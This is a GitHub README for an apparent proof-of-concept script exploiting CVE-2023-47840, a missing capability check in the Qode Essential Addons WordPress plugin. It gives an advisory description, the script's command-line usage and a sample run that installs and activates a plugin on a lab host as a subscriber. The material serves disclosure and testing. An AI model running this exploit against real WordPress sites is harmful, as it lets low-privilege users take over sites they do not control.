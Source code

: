 # CVE-2023-47840
Qode Essential Addons &lt;= 1.5.2 - Missing Authorization to Authenticated (Subscriber+) Arbitrary Plugin Installation/Activation

### Description:
The Qode Essential Addons plugin for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on the install_plugin() function in all versions up to, and including, 1.5.2. This makes it possible for authenticated attackers, with subscriber-level access and above, to install and activate arbitrary plugins.

```
Severity: medium
CVE ID: CVE-2023-47840
CVSS Score: 4.3
CVSS Metrics: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N
Plugin Slug: qode-essential-addons
WPScan URL: https://www.wpscan.com/plugin/qode-essential-addons
Reference URL: https://www.wordfence.com/threat-intel/vulnerabilities/id/443c59b9-275d-4d17-a870-9ae013c1a5c1
SVN Link: https://plugins.trac.wordpress.org/changeset/2996356/qode-essential-addons/trunk/inc/admin/inc/admin-pages/sub-pages/import/class-qodeessentialaddons-framework-import-plugins.php
Patchstack: https://patchstack.com/database/vulnerability/qode-essential-addons/wordpress-qode-essential-addons-plugin-1-5-2-arbitrary-plugin-installation-and-activation-vulnerability
```

How to use
---

```
usage: CVE-2023-47840.py [-h] --url URL --username USERNAME --password PASSWORD --slug SLUG

Qode Essential Addons <= 1.5.2 - Missing Authorization to Authenticated (Subscriber+) Arbitrary Plugin Installation/Activation Description CVE-2023-47840 - The Qode Essential Addons plugin for WordPress is vulnerable to unauthorized
modification of data due to a missing capability check on the install_plugin() function in all versions up to, and including, 1.5.2. This makes it possible for authenticated attackers, with subscriber-level access and above, to
install and activate arbitrary plugins.

options:
  -h, --help           show this help message and exit
  --url URL            URL of the WordPress site
  --username USERNAME  WordPress username
  --password PASSWORD  WordPress password
  --slug SLUG          WordPress Plugin Slug
```

POC
---

```
$ python3 CVE-2023-47840.py --url http://wordpress.lan --username user --password useruser1 --slug olympus-google-fonts
Logged in successfully.
Getting REST API Nonce!
Nonce Found: 1d0f559912
Installing Plugin!
HTTP STATUS: 200 Response:
Activate Plugin!
HTTP STATUS: 200 Response: {"status":"success","message":"Activated","data":null,"redirect":""}
```
